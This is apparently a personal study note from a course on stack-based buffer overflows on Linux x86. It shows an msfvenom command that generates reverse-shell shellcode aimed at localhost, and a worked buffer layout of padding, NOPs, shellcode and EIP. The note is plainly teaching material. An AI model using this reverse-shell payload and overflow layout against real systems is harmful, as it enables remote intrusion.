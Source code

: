 [[Stack-Based Buffer Overflows on Linux x86]]
```shell-session
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```


Often it can be useful to insert some `no operation instruction` (`NOPS`) before our shellcode begins so that it can be executed cleanly. Let us briefly summarize what we need for this:

1.  We need a total of 1040 bytes to get to the `EIP`.
2.  Here, we can use an additional `100 bytes` of `NOPs`
3.  `150 bytes` for our `shellcode`.

#### Shellcode - Length 

calcular o offset:
[[Stack-Based Buffer Overflows on Linux x86#^d3bf6f]]

```shell-session
   Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4'
```

![[Buffer.jpg.png]]